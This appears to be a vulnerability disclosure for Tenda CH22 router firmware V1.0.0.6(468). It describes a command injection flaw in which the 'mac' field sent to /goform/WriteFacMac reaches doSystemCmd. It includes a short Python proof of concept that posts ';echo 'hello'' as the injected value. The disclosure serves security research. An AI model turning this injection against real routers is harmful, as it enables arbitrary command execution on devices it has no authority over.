


## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-2230.html
## Affected version

CH22 V1.0.0.6(468)
## Vulnerability details

CH22 V1.0.0.6(468) firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `v2` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.



## POC

```python
import requests
from pwn import*

ip = "192.168.109.145"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";echo 'hello'"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)```


